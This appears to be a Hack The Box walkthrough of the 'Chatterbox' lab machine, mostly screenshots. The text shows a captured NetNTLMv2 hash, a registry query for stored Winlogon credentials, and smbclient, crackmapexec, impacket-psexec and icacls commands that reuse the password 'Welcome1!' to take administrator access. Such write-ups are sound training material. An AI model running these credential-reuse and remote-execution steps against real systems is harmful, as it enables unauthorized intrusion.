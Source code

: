 ### 11-Jan-24-Thu (Happy Karen New Year)

[Chatterbox](https://app.hackthebox.com/machines/Chatterbox)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/4003e9b5-e042-4687-831e-8067ea824039)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/48fa5920-6a85-43b0-b06f-9371a5497b8c)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/243727a8-2e81-4d97-a723-bd0ac7085af8)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9289f585-646d-4e47-b7f3-1d64f42e358f)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9094bda7-efdc-490c-a7e8-c9541fa42cb0)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/fbebf7af-9813-42dc-8767-d7062984c3bf)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/907e0ded-20e5-448e-9a14-baeb1b6c3e6c)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/42f24140-6124-4271-8ab4-5b348c185e65)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/357b4356-b451-40d6-a91a-6aade23b5c01)

```
����������͹ Enumerating Security Packages Credentials
  Version: NetNTLMv2
  Hash:    Alfred::CHATTERBOX:1122334455667788:2243052000308a69ff9ee7abdbda42e0:0101000000000000951ee8459444da010d5ace7e59f3fe52000000000800300030000000000000000000000000200000cfee5101f0d14acaa47db8dfb05734f85659b621092b5e24c348f2838abb6b600a00100000000000000000000000000000000000090000000000000000000000
```

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/6beec470-f5da-4123-ac91-0534948388e6)

```
smbclient -L 10.129.61.158 -U Administrator
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/8b76fd45-1b98-4e74-b060-03bf30bb8dfb)

```
crackmapexec smb 10.129.61.158 -u 'Administrator' -p 'Welcome1!'
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/31e91654-c744-4bb7-8ede-30dbd97df62a)

```
impacket-psexec CHATTERBOX/Administrator:'Welcome1!'@10.129.61.158
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/7c645509-8d65-4872-a843-6f7aa5504fa8)

```
icacls "C:\Users\Administrator\Desktop\root.txt" /grant:r "alfred:(R)"
```

```
icacls "C:\Users\Administrator\Desktop\root.txt" /grant Alfred:F /t /c
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/f84a4212-469b-4f6a-bf3a-0b14366c3d6f)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1477e9fa-5c08-41df-97a0-893ba858308b)

